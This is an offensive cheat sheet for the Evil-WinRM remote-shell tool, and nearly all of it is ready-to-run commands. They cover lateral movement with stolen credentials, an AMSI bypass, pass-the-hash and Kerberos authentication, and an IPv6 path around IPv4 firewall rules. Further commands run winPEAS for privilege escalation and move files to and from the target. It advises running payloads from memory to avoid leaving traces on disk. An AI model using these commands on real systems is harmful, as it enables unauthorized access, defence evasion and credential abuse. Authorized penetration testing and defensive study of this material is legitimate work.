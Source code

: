 # Evil-WinRM 

## Link: https://github.com/Hackplayers/evil-winrm

## Port: 5985 (Over HTTP) 5986 (Over HTTPS)

## TIP: Use -S flag to enable SSL. Use this when the WinRM port is 5986 (Over HTTPS)

### Do lateral movement via WinRM protocol using found credentials with evil-winrm

### In your Evil-WinRM session, when authenticating you can use a folder from your local machine as a source to run powershell scripts

    evil-winrm -i TARGET_IP -u USER -p PASSWORD -s /path/to/PowerSharpBinaries

### Bypass AMSI using the command within the session:

    Bypass-4MSI

### Then you can run scripts from memory (DO NOT WRITE ON DISK UNLESS ABSOLUTELY NECESSARY!)

## Authentication Methods

#### 1) Clear text Password

     evil-winrm -i TARGET_IP -u USERNAME -p PASSWORD

#### 2) Certificate (.pfx file)

     openssl pkcs12 -in USER_PFX_CERT.pfx -nocerts -out key.pem -nodes

       openssl pkcs12 -in USER_PFX_CERT.pfx -nokeys -out cert.pem

### After generating the private key from the .pfx file, we use Evil-WinRM to authenticate

    evil-winrm -i TARGET_IP -c CERT.pem -k KEY.pem -S

#### 3) Kerberos

    kinit USERNAME@DOMAIN.LOCAL (Authenticate and retrieve a ticket on Windows)
  
    impacket-getTGT DOMAIN.LOCAL/USERNAME:PASSWORD (Request a TGT ticket on Linux)

 Configure /etc/krb5.conf file with the appropriate settings (Replace some of the placeholders for your use case)

       [libdefaults]
        default_realm = DOMAIN.LOCAL
        ticket_lifetime = 24h
        renew_lifetime = 7d
        forwardable = true
        dns_lookup_realm = false
        dns_lookup_kdc = true

       [realms]
       DOMAIN.local = {
        kdc = IP or Hostname of KDC/Domain Controller
        admin_server = IP or Hostname of Admin Server
       }

       [domain_realm]
        .domain.local = DOMAIN.LOCAL
        domain.local = DOMAIN.LOCAL

### 

    evil-winrm -r DOMAIN.LOCAL -i DC.DOMAIN.LOCAL (Authenticate via kerberos)

#### 4) NTLM Authentication (Pass-the-Hash)

    evil-winrm -i TARGET_IP -u USER -H NTLM_HASH

#### 5) Authenticate using IPv6 address (In case firewall blocks IPv4 traffic on port 5985)

    evil-winrm -i [IPv6] -u USER -p PASSWORD

### TIP: Enter the IPv6 in your /etc/hosts file and give it a hostname (preferably the target machine name)

#### 6) Store logs with Evil-WinRM

    evil-winrm -i IP -u administrator -p Password@987 -l

Logs will be saved to 

    /home/user/evil-winrm-logs
    or
    /root/evil-winrm-logs

#### 7) Run executables in Evil-WinRM sessions

    evil-winrm -i IP -u administrator -p Password@987 -e /opt/privsc
    Bypass-4MSI
    menu
    Invoke-Binary /opt/privsc/winPEASx64.exe

#### 8) Service Enumeration

    menu
    services

#### 9) File Transfer

Upload a file from our system to target machine

    upload /home/user/test.txt .

Download a file from target machine to our system

    download test.txt /home/user/test.txt

#### 10) Use Evil-WinRM from Docker

    docker run --rm -ti --name evil-winrm oscarakaelvis/evil-winrm -i IP -u Administrator -p 'Password@987'

